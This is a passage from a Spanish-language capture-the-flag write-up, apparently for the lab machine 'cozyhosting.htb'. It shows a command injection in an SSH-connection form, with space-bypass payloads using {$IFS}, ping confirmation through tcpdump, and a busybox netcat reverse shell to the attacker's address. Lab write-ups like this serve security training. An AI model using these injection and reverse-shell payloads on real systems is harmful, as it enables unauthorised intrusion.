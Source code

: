 Al momento de refrescar la pagina nos redirige a la interfaz de admin que no se tenia acceso al inicio.

### Command injection
Esto parece ser un buen inicio, viendo lo que se puede hacer con esa página, se pudo observar que hay un apartado para ingresar credenciales por ssh, al momento de colocar datos para probarlo, muestran errores a como si estuvieran saliendo del bash del servidor.

![](cozy5.jpg)

Esto es un posible command injection, por lo que se prueban distintos payloads para ver cual funcionaria.
Al parecer no se permiten espacios al momento de colocar el usuario, de alguna forma puede que el comando por detras sea algo como:
~~~bash
ssh -i key user@host
~~~
Normalmente probaria con burpsuite y pondria todo con url enconding, pero por alguna razon no abre el programa, asi que intentando hacerlo manualmente, se prueba el payload en el "username"
~~~bash
test;id;#
~~~
Como no imprime ningun resultado, se prueba haciendo un ping a mi maquina.
~~~bash
test;ping{$IFS}-c{$IFS}2{$IFS}10.10.14.17;#
~~~
Mientras que en espera de la respuesta desde mi maquina atacante con tcpdump se logra obtener respuesta.
~~~bash
sudo tcpdump -i tun0 icmp                                                                      
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:33:26.792999 IP cozyhosting.htb > 10.10.14.17: ICMP echo request, id 2, seq 1, length 64
16:33:26.793137 IP 10.10.14.17 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
16:33:27.794979 IP cozyhosting.htb > 10.10.14.17: ICMP echo request, id 2, seq 2, length 64
16:33:27.795018 IP 10.10.14.17 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
~~~
De esta forma comprobamos que la inyeccion de comandos es efectiva, buscando un payload correcto, se establece una reverse shell
~~~bash
test;busybox{$IFS}nc{$IFS}10.10.14.17{$IFS}4433{$IFS}-e{$IFS}/bin/bash;#
~~~
Estableciendo un escucha se logra obtener efectivamente una shell para un usuario llamado "app"
~~~bash
sudo nc -nlvp 4433       
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.230] 47618
id
uid=1001(app) gid=1001(app) groups=1001(app)
~~~